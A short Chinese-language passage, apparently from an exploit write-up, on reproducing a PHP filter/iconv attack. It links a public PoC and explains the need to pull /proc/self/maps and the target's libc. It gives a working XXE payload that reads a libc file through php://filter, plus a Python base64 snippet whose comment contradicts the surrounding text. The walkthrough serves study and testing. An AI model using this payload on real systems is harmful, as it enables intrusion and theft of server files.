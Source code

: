 #### 复现

脚本小子直接用这个项目: [Github](https://github.com/kezibei/php-filter-iconv)

这个 PoC 需要下载到靶机的 `/proc/self/maps` + `libc-2.x.so` 这两个文件, 并和 python 文件放到同目录;

先读 `/proc/self/maps`, 读出环境文件;

![15-2.png](15-2.png)

接下来读 `/lib/x86_64-linux-gnu/libc-2.31.so`:

```xml
<?xml version="1.0"?>
<!DOCTYPE LSE [  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/lib/x86_64-linux-gnu/libc-2.31.so">]>
<root>
<username>
&xxe;
</username>
</root>
```

这里用一个 python 脚本解码就行:

```python
import base64
file = open("a.bin", "rb")

now = file.read()
ba = base64.b64encode(now)
print(ba)
file.close()

# 对已有文件做base64编码并输出
```
